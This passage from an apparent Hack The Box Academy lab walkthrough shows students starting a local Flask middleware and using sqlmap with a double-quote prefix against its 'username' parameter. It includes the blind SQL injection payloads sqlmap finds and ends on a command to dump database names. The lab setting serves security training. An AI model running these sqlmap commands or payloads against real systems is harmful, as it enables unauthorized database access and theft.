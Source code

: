 ```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-r0xvavhkst]─[~]
└──╼ [★]$ python3 sqlmapMiddleware.py

 * Serving Flask app 'sqlmapMiddleware' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:8000/ (Press CTRL+C to quit)
```

Subsequently, students need to run `sqlmap`, making sure to use the `--prefix` option and the value `"` for it:

Code: shell

```shell
sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --batch --threads=10
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-r0xvavhkst]─[~]
└──╼ [★]$ sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --batch --threads=10
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

sqlmap identified the following injection point(s) with a total of 1350 HTTP(s) requests:
---
Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=htb-stdnt" AND 9488=9488-- yhMj

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=htb-stdnt" AND (SELECT 9265 FROM (SELECT(SLEEP(5)))KwNt)-- RNJt
---
<SNIP>
```

Now that `sqlmap` confirmed the SQLi vulnerability, students need to dump the databases' names, finding `db`:

Code: shell

```shell
sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --dbs --threads=10
```
